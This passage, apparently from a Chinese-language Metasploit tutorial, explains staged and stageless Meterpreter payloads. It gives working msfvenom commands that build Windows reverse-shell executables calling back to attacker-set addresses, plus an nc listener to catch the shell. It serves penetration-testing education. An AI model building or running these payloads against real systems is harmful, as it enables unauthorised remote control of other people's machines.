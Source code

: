 我们之前说过，当靶机运行了我们的 shellcode，会在内存里面开辟一块土地，这个地方就是为我们的 metsrv 留的，metsrv.dll 这个文件是 meterpreter 的核心组件，有了他，我们才能获取到一个 meterpreter shell，当 metsrv 传输成功之后，shellcode 就会把控制权转给 metsrv，metsrv 这时再去请求另外两个 dll 文件 stdapi 和 priv。这个时候目标就上线了.

![](../../../assets/img/Security/安全工具/Metasploit/4.png)

**Stageless**

现在我们知道了 meterpreter/reverse_tcp 是分阶段的 shellcode，并且他分阶段的原因是因为在溢出攻击的时候 shellcode 应该尽可能保持得更短，这个时候理解他小兄弟 meterpreter_reverse_tcp 就方便的多，和 meterpreter/reverse_tcp 不同的是，他的小兄弟 meterpreter_reverse_tcp 是一个不分阶段的 payload，我们称之为 stageless(unstage)，他在生成的时候就已经将我们获取一个 meterpreter 必须要用的 stdapi 已经包含在其中了。那这又有什么好处呢？试想一下，如果我们通过层层的代理，在内网进行漫游，这个时候使用分阶段的 payload 如果网络传输出现了问题，metsrv.dll 没有加载过去，可能就会错失一个 shell，stageless 的 payload 会让人放心不少

默认的 stageless payload 只会包含 stageless，所以如果想将 stdapi 和 priv 两个组件给包含进去的话我们可以用 extensions 命令：
```bash
msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe
```

**回弹至 nc**

分阶段的 payload，我们必须使用 exploit/multi/handler 这个模块使用，但是当我们想回弹一个基础的 shell 的时候，其实可以使用 nc 来监听端口直接回连到 nc 上

当有时获取到了 root 权限，想反弹 linux shell 的时候，这时 meterprter 的需求就不是那么高了，我们就可以使用 shell_reverse_tcp(或者是 bind) 来生成一个 stageless 的 bash 脚本，直接使用 nc 来接受 shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.141.143 LPORT=4444 -f exe > ./vu.exe
```

nc 监听
```bash
nc -tvlp 4444
```

接收回弹

![](../../../assets/img/Security/安全工具/Metasploit/5.png)
